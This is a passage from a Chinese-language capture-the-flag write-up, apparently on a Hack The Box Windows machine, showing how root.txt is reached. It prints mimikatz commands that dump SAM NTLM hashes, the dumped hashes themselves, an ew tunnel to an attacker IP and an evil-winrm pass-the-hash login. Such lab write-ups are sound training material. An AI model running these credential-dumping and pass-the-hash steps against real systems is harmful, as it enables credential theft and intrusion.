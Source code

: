 用以下命令修改权限后仍然打不开

```
cacls C:UsersAdministratorDesktoproot.txt /e /p system:f
```



## mimikatz dump（easy way）

留意到Administrator和coby都可以打开root.txt，何不尝试一下切换到其他用户。上传mimikatz，导出所有用户hash

```
privilege::debug
token::elevate
lsadump::sam
```

由于我们是system权限，轻松获取到其他用户的NTLM hash。

```
User : Administrator
  Hash NTLM: caf97bbc4c410103485a3cf950496493

User : coby
  Hash NTLM: fa88e03e41fdf7b707979c50d57c06cf
```

之前查看端口发现，靶机是有开放5985端口，不过有防火墙，所以端口扫描时并没有发现，而winrm是可以通过hash进行登录的。

然后用ew转发winrm的端口到本地

```
攻击端主机：
./ew_for_linux64 -s lcx_listen -l 5985 -e 23335
靶机：
ew.exe -s lcx_slave -d 10.10.14.220 -e 23335 -f 127.0.0.1 -g 5985
```

使用coby的hash可以登录并读到root.txt

```
root@kali:~/pentest/Re# evil-winrm -i 127.0.0.1 -u coby -H fa88e03e41fdf7b707979c50d57c06cf

Evil-WinRM shell v2.1
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:UserscobyDocuments&gt; type C:UsersAdministratorDesktoproot.txt
1B4FB9xxxxxxxxxxxxxxxxxxxx8F7715D
```



## incognito（very easy way）

为何有权限却读不到flag呢？事后请教了一位外国友人，原来是因为文件被加密（EFS）了，因此即使有权限也是打不开的。使用cipher命令检查root.txt，看到文件被加密了，只有`Administrator`和`coby`可以解密。

```
PS C:UsersAdministratorDesktop&gt; cipher /c root.txt

 Listing C:UsersAdministratorDesktop
 New files added to this directory will not be encrypted.

E root.txt
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    REAdministrator [Administrator(Administrator@RE)]
    Certificate thumbprint: E088 5900 BE20 19BE 6224 E5DE 3D97 E3B4 FD91 C95D

```